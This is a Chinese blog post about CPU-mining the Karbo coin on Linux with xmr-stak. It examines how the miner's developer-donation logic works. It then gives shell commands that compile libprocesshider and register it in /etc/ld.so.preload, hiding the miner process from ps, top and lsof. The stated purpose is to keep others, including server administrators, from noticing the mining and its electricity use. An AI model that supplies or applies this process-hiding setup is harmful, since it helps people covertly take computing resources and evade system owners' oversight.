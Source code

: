 +++
title = "如何优雅地在Linux操作系统下用CPU挖矿"
date = 2018-05-31T21:40:58+08:00
draft = false

# Tags and categories
# For example, use `tags = []` for no tags, or the form `tags = ["A Tag", "Another Tag"]` for one or more tags.
tags = ['Block chain', 'Linux', 'Performance']
summary = ""

# Featured image
# Place your image in the `static/img/` folder and reference its filename below, e.g. `image = "example.jpg"`.
# Use `caption` to display an image caption.
#   Markdown linking is allowed, e.g. `caption = "[Image credit](http://example.org)"`.
# Set `preview` to `false` to disable the thumbnail in listings.
[header]
image = ""
caption = ""
preview = true

+++

这是一篇“散文”，记录一下最近用CPU挖矿的曲折的折腾过程。

首先先来BB一下动机：手里是有一台PC的，没错，你没看错，一台普通台式机，其实无法通过这件事为我带来任何收益，但是出于对区块链的浓厚兴趣，我出手了。

我瞄准的币种是[Karbo](https://karbo.io/)（卡博币），那么为什么选这个呢，因为很多币（比如比特币）用CPU已然挖不动了。随着全网算力的提升，一些热门币种陆陆续续被大量计算出来，现如今计算的难度越来越大，对应的挖矿设备已经经历了CPU -> GPU -> 专用矿机这个历程。我不是专门的挖矿大户，顶多算是兴趣爱好者，当然能从中获利我也很开心。这个币现在很贱，之前更贱。坦白讲，最近几个月的一些涨幅才让我对其升值有了一定的信心。虚拟货币现在很多，这里面存在一个矛盾：如果玩的人少，市场不活跃，币就没有价值；如果玩的人太多，矿工会大量涌入，之后就重复了比特币的历程，又是一般玩家玩不起的了（不信可以去试试，个体户买一台矿机，挖几年能挖出一枚比特币哦）。我认为Karbo刚刚处在这样一个合适的阶段，所以选择了它。

挖矿，首先要有一个钱包。钱包很容易弄，懒得写了。

然后就是一个很有趣的问题，挖矿，其实本质上就是算hash值。那么这个计算的程序，也就是挖矿程序用什么好呢？我搜索了一圈，似乎[xmr-stak](https://github.com/fireice-uk/xmr-stak)还是比较科学的，支持CPU/A卡/N卡，支持Windows/Linux/macOS，支持的币种多，口碑也不错，算是挖矿程序里的佼佼者了。

很遗憾，截至我书写这篇日记的时候，软件的docker镜像并不可用，否则应该是很方便的。编译安装比较中规中矩，作者在文档里给出了常见的Linux distribution的对应命令，也不想多说了。重点谈一个坑：

国际惯例，挖矿工具的作者，是会从计算过程中“抽水”的。一般来讲，默认会抽2%，xmr-stak也是采用了这个值。这个2%，其实就是每计算100分钟，其中有两分钟是为作者的钱包计算/提交hash值，可以理解为是一种持续捐献、鼓励和支持作者继续开发的团结友爱的行为。作者在此处体现出了充分的人道主义精神，指出了源码中控制捐献比例的变量的位置，允许用户在编译程序之前自行修改：

[xmrstak/donate-level.hpp](https://github.com/fireice-uk/xmr-stak/blob/c0ab1734332d6472225d8ac7394f6fcba71aabc9/xmrstak/donate-level.hpp#L18):
```cpp
constexpr double fDevDonationLevel = 2.0 / 100.0;
```

一个中规中矩的double类型常量，看起来没什么不妥。可是这个时候我的好奇心膨胀了，我很关心作者是如何实现这个捐献的逻辑的。另外也有一个疑问：对于完全不捐献的人，会怎样处理，真的颗粒无收吗？假如人人都在编译之前手动修改了源码中这个常量的值为0.0，那么程序岂不是白写了...

于是我搜索了整个代码仓库内含有`fDevDonationLevel`常量的代码，发现了一些端倪。先看这一部分：

[xmrstak/misc/executor.hpp](https://github.com/fireice-uk/xmr-stak/blob/26a5d65f12b2f19a0a3ece39a2bc64718796367b/xmrstak/misc/executor.hpp#L60):
```cpp
// Dev donation time period in seconds. 100 minutes by default.
// We will divide up this period according to the config setting
constexpr static size_t iDevDonatePeriod = 100 * 60;

inline bool is_dev_time()
{
    //Add 2 seconds to compensate for connect
    constexpr size_t dev_portion = static_cast<size_t>(double(iDevDonatePeriod) * fDevDonationLevel + 2.);

    if(dev_portion < 12) //No point in bothering with less than 10s
        return false;

    return (get_timestamp() - dev_timestamp) % iDevDonatePeriod >= (iDevDonatePeriod - dev_portion);
};
```

`is_dev_time()`是一个返回值为bool类型的函数。作者将每100分钟看作一份，然后从中抽出以百分比计数的若干分钟来作为捐献。这里计算了一个`dev_portion`变量：`iDevDonatePeriod`常量将这一百分钟换算为秒，之后将其与`fDevDonationLevel`（用户决定的捐献比例）相乘，再加2（姑且可以认为这是为了方便计算，小数点是为了方便double类型相加）。然后我留意到下面有一个`if`分支，对于这个值小于12（每100分钟，也就是6000秒内，捐献给作者的计算时间低于10，因为之前加了2），函数将直接返回一个`false`。那么这个`false`的返回值又有什么用呢？我继续搜索了调用函数`is_dev_time()`的代码，发现了这样[一处]((https://github.com/fireice-uk/xmr-stak/blob/c0ab1734332d6472225d8ac7394f6fcba71aabc9/xmrstak/misc/executor.cpp#L152))，看完作者复杂的矿池切换逻辑，瞬间觉得后背一凉，想了下还是保留一点“良知”，适当调低了捐献比例（我是觉得2%有点高），编译，通过。

万事俱备，只欠开挖。开挖之前，是想把进程做点手脚的。理由很简单，被人发现在挖矿就不好了，就变成了挖社会主义墙脚，薅社会主义羊毛。想隐藏进程，首先就要深刻理解常见进程查看工具，比如`top`、`ps`和`lsof`这些的原理。这里要用到一个超强的系统挖掘工具，叫做`sysdig`，它不仅仅在监控细节上更“深入”，甚至还能对容器（比如docker）等进行监控。使用`sysdig`监控`ps`时可以看到`ps`的大概工作原理：

用一些底层的函数，比如`openat()`和`getdents()`去解析`/proc`目录的内容。比如在终端内运行`ls /proc`，可以看到如下输出：

![/proc目录内容](/img/post_img/proc目录的内容.png)

这些数字就是对应每个进程的PID。每个进程在创建伊始，都会在`/proc`下生成这样的一个目录，里面保存了很多信息。如果你是一只生信狗，看这篇日记的时候就应该想到，当你提交了一条任务，跑了很久都没跑完，以至于你都不记得当初把它提交时用的命令行参数了，怎么办？别担心，只要`cat /proc/PID/cmdline`就可以看到万恶♂之源（误）：

![cmdline的内容](/img/post_img/cmdline的内容.png)

看来这里52329这个进程，就是一个sftp服务。除此之外，还可以查看进程状态、一些统计信息等等。

然鹅，虽然知道了`ps`这些程序是这样的工作原理，但是其实`openat()`和`getdents()`也不是根源，它们也要调用更为底层的C标准库（`libc`），里面提供了两个函数：`opendir()`和`readdir()`。到目前为止，把进程藏起来大概可以有这样几个思路：

1. 对类似SELinux这样的子系统做手脚。但是并不推荐，首先不好改，其次，服务器管理员可能一早就睿智地把它关了。
2. 把`top`、`ps`和`lsof`这些程序的二进制可执行文件改了。这个切实可行，但是你就要去改源码。有几个类似的工具，就改几次，它更新，你再去改...再编译。有点蠢。
3. 改掉`libc`。既然大家都在用`libc`的`readdir()`，不如就一次性把这里改掉，让它查看不到某些进程在`/proc`里面的内容就好了。
4. 直接修改内核对诸如`getdents()`函数的调用方式。

这里利用一下Linux的预加载动态链接库的特性。捣鼓一个假的`readdir()`函数出来，加入操作系统的预加载列表内。之后再调用系统的`readdir()`函数的时候，由于函数签名相同，早就已经被覆盖掉，是一个假的`readdir()`了。逻辑也很简单，发现进程名称和设定的一致，就[跳过](https://github.com/gianlucaborello/libprocesshider/blob/890e3cf3f8cf3d2edf214c7ac1275b7c3ced15a9/processhider.c#L89)。这里借用一下人家的轮子：

```shell
# 先克隆下来
git clone git@github.com:gianlucaborello/libprocesshider.git
cd libprocesshider
# 编译
make
# 把编译好的动态链接库放好
sudo mv libprocesshider.so /usr/local/lib/
# 加入预加载列表
# 这一行要用root账户添加
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

自此，随便挖，别人根本不知道电费流向了哪里。